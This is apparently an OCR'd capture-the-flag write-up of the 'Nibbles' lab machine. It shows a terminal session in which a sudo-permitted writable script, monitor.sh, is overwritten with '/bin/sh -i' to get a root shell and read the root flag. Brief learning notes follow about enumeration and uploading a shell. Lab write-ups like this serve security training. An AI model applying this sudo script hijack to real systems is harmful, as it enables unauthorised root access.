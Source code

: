 nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "os.system('/bin/bash')" > monitor.sh
<er/personal/stuff$ echo "os.system('/bin/bash')" >                        monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuf                       f/monitor.sh
/home/nibbler/personal/stuff/monitor.sh: 1: /home/nibbler/personal/stuff/monitor.sh: Syntax error: word unexpected (expecting ")")
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
cat monitor.sh
os.system('/bin/bash')
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/sh -i" > monitor.sh
echo "/bin/sh -i" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
cat monitor.sh
/bin/sh -i
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuf                       f/monitor.sh
# whoami
whoami
root
# cd root
cd root
/bin/sh: 2: cd: can't cd to root
# cd /root
cd /root
# cat root.txt
cat root.txt
049f7e3cccfa272bf9c786e052f35d1e



linux exploit suggestor.

# Learning

use recon moduel for initial enumeration
use burpsuite on web
always look for cutom programs
look for a way to upload a shell.
in ipsec there would be alternate ways of doing the same things